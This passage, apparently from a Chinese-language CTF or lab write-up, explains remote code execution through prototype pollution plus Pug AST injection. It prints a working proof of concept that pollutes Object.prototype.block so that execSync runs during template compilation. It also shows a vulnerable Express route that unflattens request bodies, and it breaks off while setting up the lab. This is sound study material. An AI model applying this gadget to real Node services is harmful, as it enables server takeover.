 那么我们通过 AST Injection + Prototype Pollution 即可实现RCE

```plain
const pug = require('pug');

Object.prototype.block = {"type":"Text","line":`console.log(process.mainModule.require('child_process').execSync('id').toString())`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html);
```

## Attack example

express 开发的web服务，其中一个CGI如下：  
(注，镜像已经上传，本地有docker环境可直接运行 `docker run -d --restart=always -p 8007:1337 rayepeng/blitzprop:latest` )

```plain
router.post('/api/submit', (req, res) => {
    const { song } = unflatten(req.body);

    if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
        return res.json({
            'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
        });
    } else {
        return res.json({
            'response': 'Please provide us with the name of an existing song.'
        });
    }
});
```

本地跑起来后运行在1337端口：
